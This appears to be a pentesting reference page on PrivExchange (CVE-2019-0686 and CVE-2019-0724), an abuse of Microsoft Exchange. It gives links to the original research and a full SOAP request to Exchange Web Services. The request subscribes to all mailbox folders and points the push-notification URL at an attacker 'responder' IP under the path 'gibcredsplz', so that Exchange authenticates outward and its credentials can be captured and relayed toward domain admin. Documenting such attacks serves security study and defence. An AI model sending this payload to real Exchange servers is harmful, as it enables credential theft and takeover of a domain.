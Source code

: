 ```yaml
---
title : "CVE-2019-0686"
# pre : ' '
description : "Abusing Exchange: One API call away from Domain Admin. (CVE-2019-0686 & CVE-2019-0724)"
date : 2021-02-03T13:28:29+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## PrivExchange - Abusing Exchange: One API call away from Domain Admin (CVE-2019-0686 & CVE-2019-0724)

[Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
[Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)

## Examples

### SOAP request creating subscription to mailbox

```plain
POST /ews HTTP/1.1
Host: exchange.example.com
Accept: */*
Accept-Language: nl-nl
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Content-Length: 934
Connection: close
Referer: https://exchange.example.com/ews
User-Agent: iPhone/11.1

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages">
    <soap:Header>
        <t:RequestServerVersion Version="Exchange2013" />
    </soap:Header>
    <soap:Body>
        <m:Subscribe>
            <m:PushSubscriptionRequest SubscribeToAllFolders="true">
                <t:EventTypes>
                    <t:EventType>NewMailEvent</t:EventType>
                    <t:EventType>ModifiedEvent</t:EventType>
                    <t:EventType>MovedEvent</t:EventType>
                </t:EventTypes>
                <t:StatusFrequency>1</t:StatusFrequency>
                <t:URL>http://<responder-IP-adres/gibcredsplz_2013_4/</t:URL>
            </m:PushSubscriptionRequest>
        </m:Subscribe>
    </soap:Body>
</soap:Envelope>
```

## URL List

- [Github.com - DirkjanM - PrivExchange](https://github.com/dirkjanm/PrivExchange)
- [Abusing Exchange - One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [Chryzsh.github.io - Exploiting PrivExchange](https://chryzsh.github.io/exploiting-privexchange/)
